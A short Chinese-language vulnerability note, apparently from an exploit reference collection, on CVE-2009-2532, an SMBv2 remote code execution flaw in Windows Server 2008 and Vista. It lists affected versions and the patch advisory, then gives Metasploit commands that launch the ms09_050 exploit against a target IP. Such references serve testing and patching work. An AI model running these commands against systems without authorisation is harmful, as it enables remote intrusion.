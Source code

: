 ### CVE-2009-2532

#### 描述

无法正确处理SMB多协议协商请求数据包中的命令值，这使远程攻击者可以通过精心制作的SMBv2执行任意代码 数据包发送到服务器服务

#### 影响版本

| Product             | Version | Update | Edition | Tested |
| ------------------- | ------- | ------ | ------- | ------ |
| Windows Server 2008 | -       |        |         |        |
| Windows Server 2008 | -       | SP2    |         |        |
| Windows Server 2008 | -       | SP2    | Itanium |        |
| Windows Server 2008 | -       | SP2    | X64     |        |
| Windows Server 2008 | -       | SP2    | X86     |        |
| Windows Server 2008 |         |        | Itanium |        |
| Windows Server 2008 |         |        | X32     |        |
| Windows Server 2008 |         |        | X64     |        |
| Windows Vista       | -       | SP1    |         |        |
| Windows Vista       | -       | SP2    |         |        |
| Windows Vista       |         |        | X64     |        |
| Windows Vista       |         | SP1    | X64     |        |
| Windows Vista       |         | SP2    | X64     |        |
| Windows Vista       |         |        |         |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2009-2532
```

#### 利用方式

利用msf 测试系统windows server 2008 sp2 x86

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.1.13 #目标IP
run
```

![image-20200823134421895](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2009-2532_win2008_x86_msf.png?raw=true)